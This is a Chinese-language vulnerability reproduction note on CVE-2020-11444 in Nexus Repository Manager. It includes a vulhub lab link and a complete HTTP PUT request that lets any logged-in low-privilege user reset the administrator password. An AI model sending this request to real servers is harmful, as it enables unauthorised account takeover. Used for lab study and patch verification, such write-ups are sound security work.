 # Nexus-Repository-Manger-change-password-低权限修改管理员密码漏洞-CVE-2020-11444

## 漏洞描述

Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码

## 漏洞影响

> [!NOTE]
>
> Nexus  3.x OSS / Pro <= 3.21.1

## 环境搭建

https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204

## 漏洞复现

漏洞触发需要任意账户权限

![image-20210628181754513](Nexus-Repository-Manger-change-password-低权限修改管理员密码漏洞-CVE-2020-11444.assets/1627363111591868.jpg)

登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码

```
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://139.198.174.173:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11

data=123456
```

返回204则修改成功

![image-20210628211858104](Nexus-Repository-Manger-change-password-低权限修改管理员密码漏洞-CVE-2020-11444.assets/1627363111859953.jpg)